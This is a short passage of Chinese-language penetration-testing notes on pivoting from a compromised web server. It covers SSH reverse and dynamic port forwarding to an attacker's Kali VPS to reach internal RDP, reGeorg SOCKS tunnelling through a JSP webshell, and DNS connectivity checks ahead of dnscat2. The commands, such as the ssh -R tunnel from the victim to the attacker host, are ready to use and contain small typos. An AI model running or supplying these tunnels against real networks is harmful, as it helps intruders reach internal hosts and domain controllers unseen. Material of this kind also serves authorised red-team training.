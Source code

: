 - 远程转发

```
web可以访问外网

vps kali linux(1.1.1.4)
web(1.1.1.200)
数据库(1.1.1.10)
域控制器(1.1.1.2)

web服务器上执行
ssh -CfNg -R 3307(vps端口):1.1.1.10（目标主机）:3389 root@192.168.1.4

rdesktop 127.0.0.1:3307
```

- 动态转发

```

vps kali linux(192.168.1.4)
web服务器(192.168.1.11/1.1.1.16)
数据库服务器(1.1.1.10)
域控制器(1.1.1.2)

ssh -CfNg -D 7000 root@192.168.1.11

浏览器设置代理
```

#### http/https协议

- reGeorg

```
https://github.com/sensepost/reGeorg

python reGeorgSocksProxy.py -u http://xxx:8080/tunne;.jsp -p 9999
proxyChains 代理访问
```

- meterpreter
- tunna

#### DNS

- 查看DNS的连通性

```
cat /etc/resoiv.conf|grep -v '#' 查询内部域名及IP地址

nslookup hacks.testlab 内部dns连通性

nklookup baidu.com 外部dns连通性
```

##### dnscat2(支持多个会话)
